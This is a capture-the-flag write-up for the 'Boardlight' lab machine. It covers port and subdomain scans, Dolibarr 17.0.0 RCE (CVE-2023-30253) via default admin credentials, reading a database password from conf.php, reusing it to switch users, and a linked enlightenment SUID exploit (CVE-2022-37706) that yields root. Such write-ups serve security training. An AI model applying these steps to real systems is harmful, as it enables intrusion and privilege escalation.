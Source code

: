 # Boardlight

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt="" width="225"><figcaption></figcaption></figure>

## Enumeration

### Port Scan

```bash
PORT   STATE SERVICE REASON  VERSION                                                                                                                                                                               
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)                                                                                                                         
| ssh-hostkey:                                                                                                                                                                                                     
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)                                                                                                                                                     
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDH0dV4gtJNo8ixEEBDxhUId6Pc/8iNLX16+zpUCIgmxxl5TivDMLg2JvXorp4F2r8ci44CESUlnMHRSYNtlLttiIZHpTML7ktFHbNexvOAJqE1lIlQlGjWBU1hWq6Y6n1tuUANOd5U+Yc0/h53gKu5nXTQTy1c9CLbQfaYvFjnz
rR3NQ6Hw7ih5u3mEjJngP+Sq+dpzUcnFe1BekvBPrxdAJwN6w+MSpGFyQSAkUthrOE4JRnpa6jSsTjXODDjioNkp2NLkKa73Yc2DHk3evNUXfa+P8oWFBk8ZXSHFyeOoNkcqkPCrkevB71NdFtn3Fd/Ar07co0ygw90Vb2q34cu1Jo/1oPV1UFsvcwaKJuxBKozH+VA0F9hyriPKjsv
TRCbkFjweLxCib5phagHu6K5KEYC+VmWbCUnWyvYZauJ1/t5xQqqi9UWssRjbE1mI0Krq2Zb97qnONhzcclAPVpvEVdCCcl0rYZjQt6VI1PzHha56JepZCFCNvX3FVxYzEk=                                                                               
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)                                                                                                                                                    
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK7G5PgPkbp1awVqM5uOpMJ/xVrNirmwIT21bMG/+jihUY8rOXxSbidRfC9KgvSDC4flMsPZUrWziSuBDJAra5g=                                                 
|   256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)                                                                                                                                                  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILHj/lr3X40pR3k9+uYJk4oSjdULCK0DlOxbiL66ZRWg                                                                                                                                 
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))                                                                                                                                                        
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).                                                                                                                                                
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Directory Scan

```bash
└─➜ ffuf -u http://board.htb/FUZZ -w /usr/share/wordlists/Discovery/Web-Content/common.txt -e .php                                                                                                             [1]

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/Discovery/Web-Content/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 316ms]
.htaccess.php           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 318ms]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 319ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 320ms]
.hta.php                [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 320ms]
.htpasswd.php           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 322ms]
about.php               [Status: 200, Size: 9100, Words: 3084, Lines: 281, Duration: 334ms]
contact.php             [Status: 200, Size: 9426, Words: 3295, Lines: 295, Duration: 410ms]
css                     [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 409ms]
do.php                  [Status: 200, Size: 9209, Words: 3173, Lines: 295, Duration: 408ms]
images                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 385ms]
index.php               [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 408ms]
index.php               [Status: 200, Size: 15949, Words: 6243, Lines: 518, Duration: 409ms]
js                      [Status: 301, Size: 303, Words: 20, Lines: 10, Duration: 408ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 407ms]
:: Progress: [9454/9454] :: Job [1/1] :: 103 req/sec :: Duration: [0:01:38] :: Errors: 0 ::

```

### Subdomain Scan

```bash
└─➜ ffuf -u http://board.htb/ -w /usr/share/wordlists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.board.htb'  -fw 6243                                                                        [0] 
                                                                                                                                                                                                                   
        /'___\  /'___\           /'___\                                                                                                                                                                            
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                                                            
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                                                           
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                                                           
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                                                                            
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 6243
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 1944ms]
:: Progress: [4989/4989] :: Job [1/1] :: 125 req/sec :: Duration: [0:00:49] :: Errors: 0 ::

```

## Web Attack

Under subdomain we can see it's hosting dolibarr (v17.0.0). This version is vulnerable to RCE.

* You can login with default credentials (`admin:admin`) on (`crm.board.htb`)

### Resource

* https://github.com/advisories/GHSA-9wqr-5jp4-mjmh
*   https://www.swascan.com/security-advisory-dolibarr-17-0-0/

    * Alternative: https://www-swascan-com.translate.goog/it/security-advisory-dolibarr-17-0-0/?\_x\_tr\_sl=it&\_x\_tr\_tl=en&\_x\_tr\_hl=en&\_x\_tr\_pto=sc


* [https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

## Shell www-data

After we exploit, we get a www-data shell

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

The default config files are under `htdocs/conf/conf.php`

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

<<SNIP>>
```



## Shell - user

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su - larissa
su - larissa
Password: serverfun2$2023!!
id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
```

We can ssh into the box for proper tty shell.

## Shell root

<pre class="language-bash"><code class="lang-bash">larissa@boardlight:~$ find / -perm -4000 -ls 2>find / -perm -4000 -ls 2>/dev/null
<strong> 2491     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
</strong>  608     16 -rwsr-sr-x   1 root     root        14488 Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
17633     28 -rwsr-xr-x   1 root     root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
17628     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
17627     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
17388     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
    
    
    &#x3C;&#x3C;SNIP>>
</code></pre>

If we google about enlightenment, we see it's a WM for Xorg.

```bash
larissa@boardlight:~$ enlightenment --version
ESTART: 0.00002 [0.00002] - Begin Startup
ESTART: 0.00121 [0.00119] - Signal Trap
ESTART: 0.00123 [0.00002] - Signal Trap Done
ESTART: 0.00277 [0.00154] - Eina Init
ESTART: 0.00496 [0.00219] - Eina Init Done
ESTART: 0.00500 [0.00004] - Determine Prefix
ESTART: 0.00693 [0.00193] - Determine Prefix Done
ESTART: 0.00696 [0.00003] - Environment Variables
ESTART: 0.00698 [0.00002] - Environment Variables Done
ESTART: 0.00699 [0.00001] - Parse Arguments
Version: 0.23.1
E: Begin Shutdown Procedure!
```

After googling the version, we can find the exploit,\
[https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh)



```bash
larissa@boardlight:/tmp/heap$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
```

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes' still pwning
